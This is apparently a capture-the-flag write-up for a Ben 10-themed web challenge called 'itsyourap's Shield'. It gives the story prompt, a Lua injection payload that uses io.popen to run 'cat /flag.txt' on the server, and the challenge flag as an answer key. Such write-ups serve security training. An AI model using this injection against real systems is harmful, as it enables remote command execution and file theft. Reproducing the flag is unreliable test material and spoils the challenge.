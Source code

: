 # Challenge 22

## Difficulty

Hard

## Title

itsyourap's Shield

## Description

Ben stumbled upon one of Vilgax’s hidden communication systems while searching for intel on his latest evil scheme. It looks like the system is more than just a simple communication system—it holds something valuable, something that could give Ben the information about Vilgax. But there’s a catch.

Vilgax, always one step ahead, has hidden a secret deep within the system, and it’s locked behind layers of protection. It seems the system’s administrator, "itsyourap," has gone to great lengths to keep the secret safe, making sure that no one can access it.

Ben needs your help to break through these defenses and uncover the truth. The question is, can you bypass the system's defenses before Vilgax's trap closes in?

Open the website here: [vilgaxsys.ctf.aotfiesta25.tech](https://vilgaxsys.ctf.aotfiesta25.tech)

## Solution

```lua
config.usermessages[n]["message"] = io.popen('cat /flag.txt'):read('*a')
```

## Flag

```text
cyn0x{l33t_lu4_inj3ct10n_h4x0r_th3_fl4g_r3tr13v3d_4ft3r_c0nf1g_3x3cut10n}
```
